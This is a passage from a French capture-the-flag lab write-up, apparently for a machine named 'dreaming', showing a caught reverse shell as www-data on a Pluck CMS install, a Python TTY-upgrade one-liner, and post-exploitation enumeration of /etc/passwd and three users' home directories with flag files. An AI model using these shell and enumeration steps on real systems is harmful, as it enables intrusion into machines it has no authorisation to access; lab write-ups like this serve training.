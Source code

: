```
connect to [10.11.50.195] from (UNKNOWN) [10.10.231.193] 52666
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@dreaming:/var/www/html/app/pluck-4.7.13/files$
```
Et voila :)

# Post Exploitation
On retrouve 3 users :
```
www-data@dreaming:/home/lucien$ cat /etc/passwd | grep "/home"
lucien:x:1000:1000:lucien:/home/lucien:/bin/bash
death:x:1001:1001::/home/death:/bin/bash
morpheus:x:1002:1002::/home/morpheus:/bin/bash
```
## Home de death
```
drwxr-xr-x 4 death death 4096 Aug 25  2023 .
drwxr-xr-x 5 root  root  4096 Jul 28  2023 ..
-rw------- 1 death death  427 Aug 25  2023 .bash_history
-rw-r--r-- 1 death death  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 death death 3771 Feb 25  2020 .bashrc
drwx------ 3 death death 4096 Jul 28  2023 .cache
drwxrwxr-x 4 death death 4096 Jul 28  2023 .local
-rw------- 1 death death  465 Aug 25  2023 .mysql_history
-rw-r--r-- 1 death death  807 Feb 25  2020 .profile
-rw------- 1 death death 8157 Aug  7  2023 .viminfo
-rw-rw-r-- 1 death death  165 Jul 29  2023 .wget-hsts
-rw-rw---- 1 death death   21 Jul 28  2023 death_flag.txt
-rwxrwx--x 1 death death 1539 Aug 25  2023 getDreams.py
```
## Home de lucien
```
drwxr-xr-x 5 lucien lucien 4096 Aug 25  2023 .
drwxr-xr-x 5 root   root   4096 Jul 28  2023 ..
-rw------- 1 lucien lucien  684 Aug 25  2023 .bash_history
-rw-r--r-- 1 lucien lucien  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lucien lucien 3771 Feb 25  2020 .bashrc
drwx------ 3 lucien lucien 4096 Jul 28  2023 .cache
drwxrwxr-x 4 lucien lucien 4096 Jul 28  2023 .local
-rw------- 1 lucien lucien  696 Aug 25  2023 .mysql_history
-rw-r--r-- 1 lucien lucien  807 Feb 25  2020 .profile
drwx------ 2 lucien lucien 4096 Jul 28  2023 .ssh
-rw-r--r-- 1 lucien lucien    0 Jul 28  2023 .sudo_as_admin_successful
-rw-rw---- 1 lucien lucien   19 Jul 28  2023 lucien_flag.txt
```
## Home de morpheus
```
drwxr-xr-x 3 morpheus morpheus 4096 Aug  7  2023 .
drwxr-xr-x 5 root     root     4096 Jul 28  2023 ..
-rw------- 1 morpheus morpheus   58 Aug 14  2023 .bash_history
-rw-r--r-- 1 morpheus morpheus  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 morpheus morpheus 3771 Feb 25  2020 .bashrc
drwxrwxr-x 3 morpheus morpheus 4096 Jul 28  2023 .local
-rw-r--r-- 1 morpheus morpheus  807 Feb 25  2020 .profile
-rw-rw-r-- 1 morpheus morpheus   66 Jul 28  2023 .selected_editor
-rw-rw-r-- 1 morpheus morpheus   22 Jul 28  2023 kingdom
-rw-rw---- 1 morpheus morpheus   28 Jul 28  2023 morpheus_flag.txt
-rw-rw-r-- 1 morpheus morpheus  180 Aug  7  2023 restore.py
```